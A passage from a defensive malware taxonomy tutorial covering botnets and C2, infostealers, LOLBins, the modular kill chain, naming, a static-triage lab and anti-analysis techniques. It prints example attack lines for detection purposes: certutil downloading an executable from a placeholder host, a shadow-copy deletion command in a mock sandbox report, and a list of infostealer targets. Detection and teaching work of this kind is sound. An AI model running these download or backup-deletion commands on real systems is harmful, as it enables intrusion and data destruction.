**Blue team usage:** the loader tier is a *detection goldmine* because the behavior is anomalous even when the code is novel: a document or archive spawning a script host that makes an outbound connection to a rare domain and then injects into another process is the loader pattern, regardless of the specific family. Detecting the *foothold* stops the intrusion before the stealer or ransomware ever arrives — which is why EDR focuses so heavily on process lineage and initial-execution behaviors. Chapter 2 (payloads/droppers, lab-scoped) and Chapter 3 (evasion) build directly on this tier.

## Part 8: Botnets and Command-and-Control

A **botnet** is a network of compromised machines ("bots"/"zombies") under unified control, used for whatever scales with numbers: DDoS, spam, credential-stuffing, proxy/anonymization services, cryptomining, or as a distribution platform for other malware. The malware on each node is often a general-purpose bot/RAT; what makes it a *botnet* is the **C2 architecture** coordinating them. That architecture is the interesting, defensively-relevant part:

- **Centralized (star)** — all bots talk to one C2 server (or a small set), historically over IRC or HTTP. Simple and responsive, but the C2 is a single point of failure: take it down and the botnet is decapitated. Defenders and law enforcement target exactly this.
- **Decentralized (P2P)** — bots relay commands peer-to-peer with no central server, making takedown far harder (there's no single node to seize). More resilient, more complex.
- **Domain Generation Algorithms (DGA)** — bots compute a large, changing set of candidate C2 domains from a seed (often date-based), and the operator registers only a few; this defeats static domain blocklists because tomorrow's domains are different. DGA traffic has a recognizable signature: bursts of failed DNS lookups (NXDOMAIN) for algorithmically-random-looking names.
- **Fast flux** — rapidly rotating the IP addresses behind a domain across many compromised hosts to keep C2 reachable and hard to block.



To make beaconing concrete: the signal is *regularity*, not volume. A human browsing produces irregular, bursty connection timing; an implant checking in produces near-periodic connections to one destination. A simple analytic computes the standard deviation of inter-connection intervals per destination — low variance (even with jitter) to a stable host is the tell:

```
dest=c2.example        intervals(s): 60,58,63,59,61,60  -> mean 60, low stddev  => BEACON
dest=cdn.legit.example intervals(s): 3,412,7,890,45,2    -> high variance        => human
```

Attackers add **jitter** (randomizing the interval ±N%) and **long sleeps** (hours between check-ins) specifically to raise that variance and blend in — which is why mature detection combines timing analysis with destination reputation, JA3/JA4 TLS fingerprints, and total-bytes ratios (implants often send far more than they receive when exfiltrating). This is the exact cat-and-mouse the Red Team Operations notebook's C2 chapter dissects from both sides.

**Blue team usage:** C2 detection is the throughline of the whole offense/defense story. The high-value signals: **beaconing** (periodic, jittered check-ins to a stable destination — the RAT tell from Part 4), **DGA** (spikes of NXDOMAIN responses for random-looking domains), connections to **newly registered or low-reputation domains**, and JA3/JA4 TLS fingerprints of known malicious clients. Sinkholing (redirecting a botnet's domains to defender-controlled servers) is how centralized botnets get measured and dismantled. This part sets up the entire Red Team Operations notebook's C2 chapter and its defensive mirror.

## Part 9: Infostealers, Keyloggers, Spyware and Wipers

Several purpose-defined families round out the taxonomy; each generates distinct telemetry.

**Infostealers** are currently one of the most impactful commodity categories. A stealer runs briefly, scrapes everything of value, exfiltrates it, and often deletes itself — a smash-and-grab. Targets: **browser-stored credentials and cookies** (the session cookies are gold — they enable session hijacking that bypasses MFA, tying back to the AiTM threat in the SE notebook), saved passwords, cryptocurrency wallets, autofill data, and application tokens. Stolen stealer logs feed a whole criminal marketplace and are a leading source of the valid credentials that begin ransomware intrusions. The defining behavior is a short-lived process reading many sensitive files/registry locations and then making a bulk outbound transfer.

**Keyloggers** capture keystrokes (and often clipboard, screenshots) to harvest credentials and sensitive input. Implemented via OS input-hook APIs, kernel drivers, or (rarely) hardware. They're frequently a *module* of a larger RAT rather than standalone.

**Spyware** is the broad surveillance category — tracking activity, capturing screens/audio/video, exfiltrating documents — overlapping heavily with RATs; the distinction is emphasis on covert monitoring over interactive control. At the high end sits **commercial/mercenary spyware** targeting mobile devices via zero-click exploits, an important reminder that the taxonomy spans platforms.

**Wipers** masquerade as ransomware but have no recovery path — their *purpose is destruction*, not extortion. They overwrite or corrupt data and boot records; a "ransom note" may be pure misdirection. Wipers appear in destructive and state-aligned operations, and the defensive implication is stark: for a wiper, backups are the *only* recovery, and detection overlaps with ransomware (mass writes, MBR tampering) but the response assumes no key will ever come.

**Cryptominers (cryptojacking)** hijack CPU/GPU to mine cryptocurrency for the attacker. Lower-severity per host but high-volume; the tell is sustained, unexplained high resource usage and connections to mining pools. Often the *first* monetization a loader chooses for a low-value victim.

| Family | Purpose | Defining behavior / telemetry | Recovery reality |
|---|---|---|---|
| Infostealer | Grab & exfil secrets | Short-lived process reads creds/cookies, bulk exfil | Rotate all exposed creds/sessions |
| Keylogger | Capture input | Input hooks, staged keystroke logs | Reset credentials entered while active |
| Spyware/RAT | Covert surveillance | Screen/mic/cam capture, C2 exfil | Rebuild; assume total exposure |
| Wiper | Destroy | Mass overwrite, MBR/boot corruption | **Backups only** — no key exists |
| Cryptominer | Steal compute | Sustained high CPU/GPU, mining-pool traffic | Remove; check for other payloads |

To make the infostealer threat concrete, here is what a typical browser-focused stealer enumerates in its few seconds of execution — and why each item matters:

```
Targets a stealer grabs (illustrative):
  - Browser saved passwords (Login Data SQLite DB, DPAPI-decrypted)
  - Browser session cookies  -> MFA-bypassing session hijack (highest value)
  - Autofill / credit-card data
  - Crypto wallet files & browser wallet extensions
  - Saved credentials for FTP/SSH/VPN/RDP clients
  - Discord/Telegram/gaming tokens
  - Screenshots + basic host inventory (for buyer triage)
Then: ZIP + exfil to C2, often self-delete.
```

The cookie theft is the part defenders underrate: a stolen, still-valid session cookie lets the attacker resume an authenticated session *without the password and without triggering MFA* — the same session-theft outcome as the AiTM phishing in the SE notebook, achieved via malware instead of a proxy. This is why infostealer response **must** include revoking sessions/tokens, not just resetting passwords.

**IR use case:** classifying the *purpose* dictates the response's urgency and shape. An infostealer means "assume every credential and session on that host is compromised — rotate them now, including cookies." A wiper means "there is no negotiation and no key; recovery is backups." A cryptominer that got in means "how did they get in, and what *else* did the loader deliver?" — the miner is often the least of your problems.

## Part 10: Fileless Malware and Living-off-the-Land

The most detection-relevant modern shift is malware that leaves little or nothing on disk and abuses *legitimate, already-present* tools to do its work. This defeats the classic "scan files for known-bad" model entirely, which is why it dominates advanced intrusions.

**Fileless / in-memory malware** executes primarily in RAM: a loader reflectively loads a payload into a process's memory without writing the payload to disk, or malicious code lives only in memory-resident locations. Because there's no file to scan, on-disk AV is blind; detection must be *behavioral* and *memory-aware* (Chapter 4 covers the mechanics; the defensive answer is EDR that inspects process memory, API calls, and behavior).

**Living-off-the-Land (LOLBins / LOLBAS)** means using the operating system's own signed, trusted binaries to carry out malicious steps, so nothing "foreign" runs. Windows is full of dual-use tools attackers repurpose:

- `powershell.exe` — download and execute code, all in memory.
- `mshta.exe`, `wscript.exe`/`cscript.exe` — run scripts from documents or the web.
- `rundll32.exe`, `regsvr32.exe` — execute code from DLLs/scriptlets, including remote ones.
- `certutil.exe` — download files and decode base64 (an abused "downloader").
- `bitsadmin`/BITS — background file transfer for stealthy download and persistence.
- `wmic.exe`, `schtasks.exe`, `at` — execution, persistence, lateral movement.
- `PsExec` (Sysinternals) — remote execution, a staple of lateral movement.

The reason this is so effective is the **dual-use / trust problem** from Part 1 taken to its limit: these binaries are signed by the OS vendor, present on every machine, and used constantly by legitimate administration — so you cannot simply block them. Detection has to be about *context and lineage*, not the binary's identity.



A concrete LOLBin detection illustrates the "context, not identity" principle. `certutil.exe` is a legitimate certificate utility, but this command line is almost never benign:

```
certutil.exe -urlcache -split -f http://x.example/a.txt payload.exe   # download
certutil.exe -decode encoded.txt payload.exe                          # base64 decode
```

Neither flag is malicious in isolation (`-urlcache`, `-decode` have real uses), but `certutil` *fetching an executable from a URL* or *decoding a dropped blob into an .exe* is a downloader pattern. A Sigma-style detection expresses exactly this context:

```yaml
title: Certutil Download/Decode (LOLBin abuse)
logsource: { product: windows, category: process_creation }
detection:
  selection:
    Image|endswith: '\certutil.exe'
    CommandLine|contains:
      - '-urlcache'
      - '-decode'
      - 'http'
  condition: selection
level: medium
```

The same logic applies to `regsvr32` loading remote scriptlets (the "Squiblydoo" pattern), `mshta` running remote HTA, and `rundll32` with suspicious exports — each is a signed binary doing something a signed binary shouldn't, caught by command-line context and parent process, not by the binary's hash.

**Blue team usage:** the durable detections here are behavioral relationships, not signatures: **`winword.exe`/`excel.exe` spawning `powershell.exe` or `wscript.exe`** (Office should almost never do this); **encoded/obfuscated PowerShell** (`-enc`, long base64) — enable **PowerShell Script Block Logging (Event ID 4104)** and **AMSI** to see through it; `certutil`/`bitsadmin` used to fetch remote content; `regsvr32`/`rundll32` loading remote scriptlets. **Sysmon** (Event ID 1 process creation with command line and parent) plus these logging sources is the backbone of LOLBin detection, and **application control** (WDAC/AppLocker) plus **constrained language mode** raises the cost of the whole class. This part is the direct setup for Chapter 3 (evasion) and Chapter 4 (AMSI/in-memory).

## Part 11: The Modern Modular Kill Chain

Now assemble the vocabulary. A contemporary intrusion is not one piece of malware but a *pipeline* of specialized components, often authored and operated by different criminal groups, cooperating across the kill chain. Seeing the whole pipeline is what lets a defender recognize which stage they've caught and predict the next.



Read that chain against the taxonomy: **initial access** (trojan/phish or worm/exploit), **loader tier** (Part 7), **infostealer** (Part 9) feeding a **credential market**, **RAT/C2** (Parts 4, 8) for control, **privilege escalation and lateral movement** (the AD and priv-esc notebooks), **exfiltration**, **backup destruction** (Part 5), and finally **ransomware** (Part 5) sold as a service. Each arrow is a *handoff*, often between different specialists, and each node is a *detection and containment opportunity*. The strategic point: **you don't have to catch the ransomware to stop the ransomware** — catching the loader, the beacon, the credential theft, or the backup-deletion command all break the chain earlier and cheaper.

| Kill-chain stage | Family/component | Best detection opportunity |
|---|---|---|
| Initial access | Trojan/phish, exploit | Mail defense, patch, MFA, Office→script lineage |
| Foothold | Loader/downloader | Anomalous process lineage + rare outbound |
| Credential theft | Infostealer | Process reading cred stores + bulk exfil |
| Control | RAT / C2 | Beaconing, rare/newly-registered destinations |
| Escalation/lateral | LOLBins, cred dumping | Sysmon lineage, PsExec/WMI, LSASS access |
| Pre-encryption | Backup deletion | Alert on vssadmin/wbadmin/bcdedit |
| Impact | Ransomware/wiper | Mass writes, entropy, canary files |

**Red team usage (lab-scoped):** authorized adversary emulation replays this exact chain — a benign loader, a licensed/open-source C2, simulated cred theft, and (in isolated labs) a *defanged* encryptor — so the blue team can prove which stages they detect. The engagement's value is the coverage map: "we caught the beacon but missed the loader" is the finding that drives detection engineering.

## Part 12: Malware Naming, Signatures & Attribution

A practical skill that trips up newcomers: malware "names" are a mess, and understanding *why* prevents costly confusion during an incident. There are three overlapping naming systems, each answering a different question.

**AV/vendor detection names** describe *what a scanner matched*, not a canonical identity. A name like `Trojan:Win32/Wacatac.B!ml` decodes as: `Trojan` (type) `:Win32` (platform) `/Wacatac` (family, vendor-assigned) `.B` (variant) `!ml` (detected by a machine-learning model, not a hard signature). The historical **CARO naming convention** (`Type.Platform.Family.Variant`) underlies most vendor schemes, but each vendor names independently — the *same* sample can be `Wacatac` to one engine, `Zusy` to another, and `Barys` to a third. This is why analysts cross-reference on **hash**, not name, and use aggregators to see all vendor verdicts at once. A `!ml`, `.gen`, or `heur` suffix signals a *heuristic/generic* detection — useful but lower-confidence than a specific family match.

**Threat-actor / campaign names** answer "who is behind this?" and are assigned by threat-intel teams, each with their own taxonomy — weather-and-animal schemes, numbered "APT" designations, element or company-themed codenames. The important caveats: (1) different vendors give the *same* actor different names, (2) an "actor" cluster is an analytic judgment that can be split or merged as evidence changes, and (3) **attribution is hard and often wrong** — shared tooling, false flags, and commodity malware make "who" much less certain than "what." For a defender, *attribution rarely changes the immediate response*; classify the behavior and contain it first.

**Signature systems** are how detection is *shared*. **YARA** rules match on strings/byte patterns/structure to classify samples; **Sigma** rules express detections over logs (portable across SIEMs); **Snort/Suricata** rules match network traffic; **IOCs** (hashes, domains, IPs) are the atomic indicators exchanged via feeds and STIX/TAXII. These are the connective tissue that turns one analyst's finding into everyone's detection.

| Naming system | Answers | Assigned by | Reliability caveat |
|---|---|---|---|
| AV detection name | "What did the scanner match?" | Each AV vendor, independently | Same sample, many names; `!ml`/`.gen` = heuristic |
| Threat-actor name | "Who is behind it?" | Threat-intel teams | Divergent per vendor; attribution is uncertain |
| YARA/Sigma/IOC | "How do we detect/share it?" | Analysts/community | Quality varies; needs tuning to avoid FPs |

A minimal YARA rule shows how family classification is *encoded* rather than guessed:

```yara
rule Example_Ransomware_Indicators {
    meta:
        description = "Heuristic: strings common to shadow-copy-deleting ransomware"
        author = "lab"
    strings:
        $s1 = "vssadmin delete shadows" ascii wide nocase
        $s2 = "wbadmin delete catalog" ascii wide nocase
        $s3 = ".onion" ascii wide
        $api = "CryptEncrypt" ascii
    condition:
        // at least two indicators AND the crypto import
        2 of ($s*) and $api
}
```

Field notes: `strings` defines patterns (`ascii wide` matches both 8-bit and UTF-16LE; `nocase` ignores case); `condition` is the boolean logic that decides a match. This rule is *heuristic* — it would flag benign forensics tools too, so it's a hunting aid, not a verdict. **Blue team usage:** author narrow YARA for confirmed samples to sweep your estate for related infections, and consume community rules (with tuning) to catch known families — but always validate against false positives, since a noisy rule is worse than none.

## Part 13: Malware Beyond Windows — Linux, macOS, Mobile & IoT

The taxonomy is platform-independent, but the *implementations* and prevalence differ, and defenders who assume "malware = Windows .exe" have blind spots. The families from Parts 3–10 all exist across platforms; only the mechanics change.

**Linux/server malware** is increasingly targeted because Linux runs the cloud, containers, and much critical infrastructure. Prominent forms: **cryptominers** (the most common Linux payload — servers have CPU/GPU and uptime), **web-shell backdoors** (from the AppSec notebook's file-upload and RCE chapters), **SSH worms and brute-forcers**, **container/orchestration abuse** (exposed Docker/Kubernetes APIs), and Linux ransomware targeting ESXi/hypervisors to encrypt many VMs at once — a high-impact modern trend. Persistence uses `cron`, systemd units, `.bashrc`, and `LD_PRELOAD` (a user-mode-rootkit technique that hijacks library loading); kernel rootkits use loadable kernel modules (LKMs). Detection leans on `auditd`, eBPF-based sensors, file-integrity monitoring, and the same behavioral principles.

**macOS malware** has grown past "rare" — mostly **adware/PUPs** and **infostealers** (a booming macOS stealer market targeting browser creds, keychains, and crypto wallets), plus some nation-state implants. Delivery is heavy on fake installers/cracked apps (trojans) and abuse of the trust model. Defenses: Gatekeeper, notarization, XProtect/MRT, TCC privacy prompts, and System Integrity Protection — all of which malware tries to socially-engineer the user past ("right-click → Open to bypass Gatekeeper").

**Mobile malware** (Android dominant due to sideloading; iOS rarer but high-end): banking trojans that abuse Accessibility services to overlay fake login screens and intercept SMS OTPs (defeating SMS-based MFA — reinforcing the SE notebook's MFA hierarchy), stalkerware/spyware, and at the apex, **zero-click mercenary spyware** on iOS. Defenses: app-store vetting, avoiding sideloading, mobile threat defense, and platform sandboxing.

**IoT/embedded malware** targets the vast population of weakly-secured devices (routers, cameras, DVRs) — chiefly to build **botnets** (Part 8) for DDoS and proxy services, via default-credential spraying and unpatched firmware. The mechanics are worm-like (self-propagating credential scanners), which is why these botnets grow to enormous size.

| Platform | Most common malware | Persistence mechanics | Key defenses |
|---|---|---|---|
| Windows | Ransomware, loaders, RATs, stealers | Run keys, tasks, services | EDR, Sysmon, app control, ASR |
| Linux/server | Miners, web shells, ESXi ransomware | cron, systemd, LD_PRELOAD, LKM | auditd/eBPF, FIM, least priv |
| macOS | Adware, infostealers | LaunchAgents/Daemons | Gatekeeper, XProtect, TCC, SIP |
| Mobile | Banking trojans, spyware | Accessibility abuse, profiles | Store vetting, no sideload, MTD |
| IoT | Botnet nodes | Firmware/default creds | Change defaults, patch, segment |

**Blue team usage:** the cross-platform lesson is that your telemetry and controls must cover *all* the OSes in your estate, not just endpoints running the corporate AV. Cloud Linux workloads, ESXi hosts, macOS laptops, and mobile devices each need purpose-fit detection — and the ESXi-ransomware and Linux-miner trends mean "server = safe" is a dangerous assumption.

## Part 14: Hands-On Lab — Static Triage of a Benign Sample

This lab practices *malware analysis* — classifying an unknown binary along the Part 2 axes — using **only safe, benign artifacts** in an isolated VM. We will not run any malicious code. The goal is to build the analyst reflexes that turn "unknown file" into "here's what family this is and what it would do," using standard, free tools each taught from scratch. Use a disposable analysis VM (e.g., FLARE-VM or REMnux) with networking disabled.

> **Safety and authorization:** perform malware analysis only in an isolated, snapshotted VM with no bridge to your network, and only on samples you are authorized to examine. For this lab you can safely use the **EICAR test file** (a harmless industry-standard AV-test string, not real malware) and any benign executable you compile yourself. Never detonate real malware outside a purpose-built, contained lab.

### Step 1 — Identify the file type and hash

The first question is always "what is this?" Do not trust the extension.

```bash
# 'file' inspects magic bytes to report the true type, regardless of extension
file suspicious.bin
# -> suspicious.bin: PE32+ executable (console) x86-64, for MS Windows

# Cryptographic hashes uniquely identify the sample for lookup/sharing
sha256sum suspicious.bin
# -> e3b0c442...  suspicious.bin
```

Flags/tools explained:
- `file` — reads the file's "magic" header bytes and reports the real format (PE/ELF/Mach-O, script, archive, document). The extension is attacker-controlled; magic bytes are not.
- `sha256sum` — produces a unique fingerprint. You search this hash in threat-intel/AV aggregators to see if the sample is known — **without uploading** a potentially sensitive sample.

### Step 2 — Pull strings for cheap intelligence

Human-readable strings inside a binary leak intent astonishingly often — URLs, IPs, registry keys, command lines, ransom-note text, API names.

```bash
# Extract ASCII (and wide/Unicode) strings of length >= 6
strings -n 6 suspicious.bin | less
strings -e l -n 6 suspicious.bin   # -e l = 16-bit little-endian (Windows wide strings)
```

Flags explained: `-n 6` sets minimum string length (filters noise); `-e l` extracts UTF-16LE strings, which Windows malware uses heavily and default `strings` would miss. **Interpretation:** strings like `vssadmin delete shadows`, a `.onion` URL, `CryptEncrypt`, or a Run-key path immediately suggest *purpose* (ransomware, C2, persistence). Sophisticated samples are *packed* (Step 4), so few meaningful strings appear — which is itself a signal.

### Step 3 — Read the PE structure and imports

A Windows PE's **Import Address Table (IAT)** lists the API functions it calls — a strong purpose signal. Use `pefile` (Python) or a PE viewer.

```bash
pip install pefile --break-system-packages
python3 - <<'PY'
import pefile
pe = pefile.PE("suspicious.bin")
for entry in pe.DIRECTORY_ENTRY_IMPORT:
    print(entry.dll.decode())
    for imp in entry.imports:
        if imp.name: print("   ", imp.name.decode())
PY
```

**Interpretation — imports betray capability:**
- `CryptEncrypt`, `CryptGenKey`, `CryptAcquireContext` → cryptography → possible ransomware.
- `InternetOpenUrlA`, `WinHttpConnect`, `socket` → networking → downloader/C2.
- `SetWindowsHookEx`, `GetAsyncKeyState` → input capture → keylogger.
- `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread` → process injection → loader/injector (Chapter 4).
- `RegSetValueEx` with a Run key → persistence.

A binary with *almost no* imports and one section that's high-entropy is almost certainly **packed** — the real imports are resolved at runtime after unpacking.

### Step 4 — Detect packing via entropy and sections

Packers/crypters compress or encrypt the real payload; the packed data looks like random noise (high **entropy**, near 8.0 bits/byte). High entropy in a code section is a reliable "packed/obfuscated" flag (the root of Chapter 3's evasion discussion).

```bash
python3 - <<'PY'
import pefile, math
def entropy(data):
    if not data: return 0
    freq=[0]*256
    for b in data: freq[b]+=1
    return -sum((c/len(data))*math.log2(c/len(data)) for c in freq if c)
pe=pefile.PE("suspicious.bin")
for s in pe.sections:
    print(s.Name.decode(errors='ignore').strip('\x00'), round(entropy(s.get_data()),2))
PY
# .text 6.4   .rdata 5.1   .data 7.98  <- .data near 8.0 = likely packed/encrypted payload
```

**Interpretation:** a `.text` (code) or oddly-named section near 8.0 entropy indicates packing. Tools like `Detect It Easy (DIE)` automate packer identification. Packing doesn't prove malice (legit software uses packers too) but combined with suspicious imports/strings it's a strong classification input.

### Step 5 — Classify along the four axes

Now synthesize. Fill in the Part 2 axes from the evidence gathered — this is the deliverable of malware triage:

```
Sample: suspicious.bin (sha256 e3b0...)
- Propagation: no self-spread code seen; arrived as email attachment -> TROJAN
- Purpose:     imports CryptEncrypt/CryptGenKey + string "vssadmin delete shadows"
               + ".onion" URL -> RANSOMWARE
- Residence:   on-disk PE, user-mode; high-entropy .data -> PACKED
- Architecture:small size + InternetOpenUrl + no embedded stage2 -> DOWNLOADER/STAGED
Conclusion: packed downloader trojan that stages ransomware; hunt for the fetched
            stage-2 and for vssadmin/wbadmin execution on affected hosts.
```

### Step 6 — Author a hunting YARA rule from your findings

Turn the static indicators into a reusable detection. Suppose Steps 2–3 surfaced the string `vssadmin delete shadows` and the import `CryptEncrypt`. Encode that as a rule and sweep a directory of samples:

```bash
sudo apt install yara -y
cat > ransom_hunt.yar <<'YAR'
rule Lab_ShadowDelete_Crypto {
    strings:
        $vss = "vssadmin delete shadows" ascii wide nocase
        $api = "CryptEncrypt" ascii
    condition:
        $vss and $api
}
YAR
# -r recurses; matches print "rulename filepath"
yara -r ransom_hunt.yar ./samples/
```

Flags explained: `-r` recurses into subdirectories; the rule fires only when *both* the shadow-delete string and the crypto import co-occur, which is far more specific (fewer false positives) than either alone. **Interpretation:** this is how one analyzed sample becomes an estate-wide hunt — but validate against known-good files first, because forensics and backup tools legitimately reference `vssadmin`.

### Step 7 — Read a dynamic-analysis (sandbox) report conceptually

Static triage tells you *capability*; dynamic analysis — detonating the sample in an instrumented sandbox — tells you *behavior*. You will not detonate anything here, but you must be able to read a sandbox report, because that is the artifact a mail-gateway or EDR detonation produces (the SE notebook's "attachment sandboxing"). The behaviors a report surfaces map straight onto this chapter's taxonomy:

```
[Sandbox report excerpt - conceptual]
Process tree:
  winword.exe -> powershell.exe (-enc <base64>) -> rundll32.exe
Network:
  DNS: 47 NXDOMAIN lookups for random-looking domains   <- DGA (Part 8)
  HTTP GET hxxp://newly-registered-domain/stage2.bin      <- downloader (Part 7)
Filesystem:
  wrote %TEMP%\svc.dll ; 1,240 files modified in 90s       <- possible encryptor (Part 5)
Registry:
  HKCU\...\Run\Updater = %TEMP%\svc.dll                    <- persistence
Commands:
  vssadmin delete shadows /all /quiet                      <- backup destruction (Part 5)
```

**Interpretation drill:** from this report alone you can complete the four-axis classification and predict the response — Office→PowerShell lineage (loader/LOLBin), DGA + downloader (staged C2), mass file writes + `vssadmin` (ransomware intent), Run-key (persistence). Your actions: isolate the host, block the stage-2 domain, alert on the `vssadmin` pattern estate-wide, and hunt for other hosts showing the same process tree. This is the taxonomy paying off: a report you've never seen before becomes an immediate, structured response.

**Lab wrap-up:** with only `file`, `strings`, `pefile`, an entropy check, and a YARA rule — plus the ability to read a sandbox report — you classified an unknown sample and drove a response *without executing anything malicious*. That is exactly the analyst skill this taxonomy exists to enable. Full dynamic analysis always happens in the same isolated, snapshotted, network-controlled environment, and is covered in the malware-analysis-focused chapters.

## Part 15: Detection & Defense Angle

Pulling the defensive threads together, the taxonomy maps cleanly onto a layered defensive strategy. The key insight repeated throughout: **detect by behavior and relationship, not by signature**, because every family's modern form is built to defeat signatures.

**Prevention (raise the cost of execution):**
- Email/web defense and user reporting (the SE notebook) — most malware still arrives via phishing.
- **Application control** (WDAC/AppLocker), **constrained language mode**, and macro-blocking — stop untrusted code and LOLBin abuse from running at all.
- Patching and no-exposed-RDP — close the worm/exploit access path.
- **Phishing-resistant MFA + least privilege + AD tiering** — limit what a foothold can reach (breaks the kill chain's middle).
- Host hardening: **Secure Boot, TPM, HVCI, driver blocklists** — raise the floor against rootkits/BYOVD.

**Detection (assume something runs):**
- **EDR** with behavioral analytics — process lineage, in-memory inspection, injection detection — the answer to fileless/LOLBin/loader behavior.
- **Sysmon + Script Block Logging + AMSI** — the telemetry backbone: process creation with command line and parent, network connections, and de-obfuscated script content.
- **Network C2 detection** — beaconing, DGA/NXDOMAIN bursts, rare/newly-registered destinations, TLS fingerprints.
- **Ransomware-specific** — canary files, backup-deletion command alerts, mass-write/entropy monitoring.
- **Memory forensics** — the ground truth when rootkits are suspected (don't trust the host's own tools).

**Response (when it lands):**
- Classify the family/purpose first — it dictates urgency and shape (infostealer → rotate everything; wiper → backups only; RAT → kill C2 and hunt lateral movement).
- Isolate, image (memory + disk) before wiping, hunt for the *rest* of the modular chain, and recover from **offline, immutable, tested backups**.



## Part 16: Anti-Analysis and Anti-Detection Techniques

A theme that recurs across every family, and the direct bridge to Chapter 3, is that modern malware actively fights the analyst and the sandbox. Understanding these techniques is essential to both offense emulation and defense, because they explain why a sample can look benign in a sandbox and detonate on a real user's machine.

**Anti-sandbox / environment awareness.** Malware checks whether it's being watched and stays dormant if so:
- **VM/sandbox artifacts** — checks for VM-specific drivers, MAC-address prefixes, registry keys, low disk/RAM, single CPU core, or known analysis-tool processes; bails if found.
- **Human-presence checks** — requires mouse movement, recent documents, or a realistic uptime before running, because automated sandboxes often lack these.
- **Time bombs / delayed execution** — sleeps past the sandbox's analysis window (sandboxes can only watch for a minute or two), or waits for a specific date. Sandboxes counter with sleep-patching (fast-forwarding time).
- **Geofencing / target checks** — only runs if the system language, timezone, or IP geolocation matches the intended target region.

**Anti-debugging.** If an analyst attaches a debugger, the malware detects it (`IsDebuggerPresent`, timing checks, exception tricks) and alters behavior or crashes to frustrate reverse engineering.

**Obfuscation, packing, and encryption** (the core of Chapter 3) hide the code itself from static analysis and signatures — the high-entropy sections from the lab are this in action.

| Technique | What it defeats | Defender/analyst counter |
|---|---|---|
| VM/sandbox detection | Automated detonation | Harden sandbox realism; behavioral EDR on real hosts |
| Human-presence check | Headless sandboxes | Simulate user activity in sandbox |
| Sleep/time bomb | Short analysis window | Sleep-patching, extended detonation |
| Geofencing | Out-of-region analysis | Analyze from target-matching profiles |
| Anti-debug | Manual RE | Anti-anti-debug plugins, patch checks |
| Packing/obfuscation | Signatures, static RE | Unpack in memory, behavioral detection |

**Blue team usage:** the practical takeaway is *why behavioral, on-host detection (EDR) beats pre-delivery sandboxing alone* — a sample engineered to sleep through detonation and detect the sandbox will pass the gateway and only reveal itself when it runs for real on a monitored endpoint. Defense-in-depth means both: detonate at the gateway *and* watch behavior on the host.

## Part 17: A Brief Evolution — Why Malware Looks the Way It Does

A short historical arc explains the shape of today's ecosystem and why the taxonomy evolved as it did. Early malware was often about *notoriety and disruption* — self-replicating viruses and worms written to prove a point or cause chaos, spreading via floppies then networks. Signature-based AV rose to meet them, so malware authors responded with **polymorphism and packing** to defeat signatures (Part 3), kicking off the detection arms race that never stopped.

The pivotal change was **monetization**. Once malware became a *business*, its design optimized for profit and stealth rather than spectacle: banking trojans, then botnets renting out compromised machines, then the explosion of **ransomware** and the **as-a-service** model that split the criminal supply chain into specialists (Part 11). Profit motive also drove the shift to **fileless/LOLBin** techniques and **modular loaders** — because staying undetected longer means more monetization, and small swappable components survive the arms race better than monolithic binaries.

The most recent inflection points, which later chapters build on:
- **EDR everywhere** pushed attackers from on-disk payloads to **in-memory, living-off-the-land** operation (Chapter 4).
- **Phishing-resistant MFA** pushed credential theft toward **session/cookie theft** (infostealers, AiTM), because passwords alone stopped being enough.
- **Commoditization** (RaaS, access brokers, stealer-log markets) means even low-skill actors can run sophisticated multi-stage intrusions by *buying* each stage.

The through-line: **every feature of modern malware is a response to a defense.** Packing answered signatures; fileless answered file-scanning AV; loaders answered payload detection; sandbox-evasion answered detonation; session theft answered MFA. This is why the defensive posture in this notebook emphasizes *behavioral, layered, assume-breach* thinking — the only stance that survives an adversary who adapts to whatever single control you deploy.

## Final Revision / Summary

- **Malware is defined by intent + lack of authorization, not technology** — the same capability is admin tooling or a weapon depending on who ran it (the dual-use problem), which is why detection is hard.
- **Classify along four axes at once** — propagation (virus/worm/trojan/dropped), purpose (ransomware/RAT/stealer/wiper/miner/botnet), privilege-residence (user/kernel/boot, on-disk/fileless), architecture (monolithic/modular/staged). A real sample has a value on each.
- **Viruses need a host and (usually) a human; worms self-spread** — worm propagation bolted onto ransomware is what turns one encrypted PC into a crippled enterprise.
- **Trojans are a delivery deception; RATs add interactive C2** — the defining RAT tell is **outbound, jittered beaconing**.
- **Ransomware uses hybrid crypto (symmetric bulk + attacker's public key)** — well-built ransomware is unrecoverable, so **offline immutable backups** are the only reliable defense; **double extortion** adds a leak threat backups can't fix.
- **Rootkits hide; the deeper the layer (user→kernel→boot/firmware), the stealthier** — you can't trust a compromised host to report on itself; use memory forensics, Secure Boot/TPM, and cross-view detection.
- **The loader tier (dropper/downloader/loader/stager) is today's reality** — small footholds fetch the real payload later; catching the foothold breaks the chain early.
- **Botnets are defined by their C2 architecture** — centralized (fragile), P2P (resilient), DGA/fast-flux (evade blocklists); detect via beaconing and NXDOMAIN bursts.
- **Infostealers, keyloggers, spyware, wipers, miners** are purpose categories with distinct telemetry and *very* different recovery realities — stealer means rotate everything, wiper means backups only.
- **Fileless + LOLBins defeat signature scanning** — abuse of signed OS tools (`powershell`, `certutil`, `rundll32`) means detection must be behavioral: Office→script lineage, encoded PowerShell, Sysmon + Script Block Logging + AMSI.
- **The modern kill chain is modular and commoditized** — access broker → loader → stealer → C2 → escalation/lateral → exfil → backup deletion → ransomware, often across different specialists. You don't need to catch the ransomware to stop it; break any earlier link.
- **Names are three different systems** — AV detection names (varying per vendor, hash-cross-reference), threat-actor names (uncertain attribution), and YARA/Sigma/IOC signatures (how detection is shared). Classify behavior first; attribution rarely changes the immediate response.
- **The taxonomy is cross-platform** — Linux miners and ESXi ransomware, macOS stealers, mobile banking trojans, and IoT botnets all follow the same axes; cover every OS in your estate, not just Windows endpoints.
- **Every modern feature is a response to a defense** — packing answered signatures, fileless answered file-scanning, loaders answered payload detection, sandbox-evasion answered detonation, session theft answered MFA. Assume-breach, behavioral, layered defense is the only durable stance.

## Cheat Sheet / Quick Reference

**Four-axis classification (name a value on each):**
```
Propagation:  virus | worm | trojan | dropped
Purpose:      ransomware | RAT | infostealer | keylogger | spyware | wiper | miner | botnet
Residence:    user-mode | kernel rootkit | bootkit/firmware ; on-disk | fileless
Architecture: monolithic | modular | staged (loader -> stage2)
```

**Delivery-tier terms:** dropper (payload embedded) · downloader (fetches payload) · loader (executes, often in-memory) · stager (minimal → pulls stage 2).

**Ransomware high-value detections:** `vssadmin delete shadows`, `wbadmin delete`, `bcdedit` recovery tampering, mass file writes + entropy spike, canary-file modification, and the *pre*-encryption cred-theft/lateral-movement that always precedes it.
